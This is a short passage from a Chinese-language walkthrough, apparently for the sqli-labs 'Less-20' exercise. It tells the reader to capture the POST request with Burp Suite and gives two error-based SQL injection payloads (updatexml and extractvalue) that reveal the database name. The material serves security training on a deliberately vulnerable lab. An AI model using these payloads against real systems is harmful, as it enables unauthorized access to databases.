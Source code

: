 

+ 启动<code>burpsuite</code>和开启监测端口，重新提交<code>post</code>参数，注入以下<code>payload</code>爆库名

~~~ shell
' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '1'='1

' and extractvalue(1,concat(0x7e,(select database()),0x7e)) # 
~~~

![Less-20_8](./img/Less-20_8.PNG)
